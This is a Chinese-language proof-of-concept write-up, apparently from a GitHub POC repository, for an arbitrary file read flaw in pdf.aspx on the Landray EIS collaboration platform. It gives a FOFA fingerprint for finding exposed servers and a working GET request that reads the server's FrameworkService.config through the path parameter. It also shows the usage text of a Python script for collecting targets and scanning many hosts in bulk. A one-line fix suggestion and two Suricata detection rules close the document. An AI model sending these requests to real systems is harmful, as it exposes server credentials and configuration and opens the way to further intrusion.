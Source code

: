 ### 产品简介  
蓝凌EIS智慧协同平台是一个简单、高效的工作方式专为成长型企业打造的沟通、协同、社交的移动办公平台，覆盖OA、沟通、客户、人事、知识等管理需求，集合了非常丰富的模块，满足组织企业在知识、项目管理系统建设等需求的一款OA系统。  

### 漏洞概述  
蓝凌EIS智慧协同平台pdf.aspx文件存在任意文件读取漏洞。攻击者可通过该漏洞在服务器端读取任意文件敏感内容，可能导致攻击者后续获取到相关的服务器权限。  

### 指纹识别  
fofa: icon_hash=“953405444”  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability/1.png)
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability/2.png)

### 漏洞利用  
```
poc:
GET /EIS/service/pdf.aspx?path=/FrameworkService.config HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1


```

### 测试和利用脚本  
```
python3 Lanling_EIS_File_read_vulnerability.py -h
usage: Lanling_EIS_File_read_vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability."; flow:established,to_server; flowbits:set,Lanling_EIS_File_read_vulnerability; content:"get";http_method;nocase; content:"/EIS/service/pdf.aspx?path=";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:17; rev:1;)
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability Success."; flow:established,from_server; flowbits:isset,Lanling_EIS_File_read_vulnerability; content:"200";http_stat_code; pcre:"/^([A-Za-z0-9+/]{4})*([A-Za-z0-9+/]{4}|[A-Za-z0-9+/]{3}=|[A-Za-z0-9+/]{2}==)$/Q"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:18; rev:1;)
```
